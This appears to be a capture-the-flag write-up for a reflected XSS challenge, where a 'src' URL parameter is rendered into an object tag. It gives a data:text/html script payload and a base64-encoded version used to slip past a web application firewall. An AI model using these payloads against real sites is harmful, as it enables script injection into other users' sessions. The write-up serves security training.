 # XSS_REFLECTED

In the home page we found an image clickable.

Here we can see this in the url:

```
/?page=media&src=nsa
```

When we set the value of src to 'test' we have an image "wrong answer" and the parameter is stored here:

```
<object data="test"></object>
```

We can execute some javascript using:

```
/?page=media&src=data:text/html, <script>alert("xss")</script>
```

But we don't get the flag. We use base64 with the same payload to avoid WAF and that works:

```
/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgieHNzIik7PC9zY3JpcHQ=
```
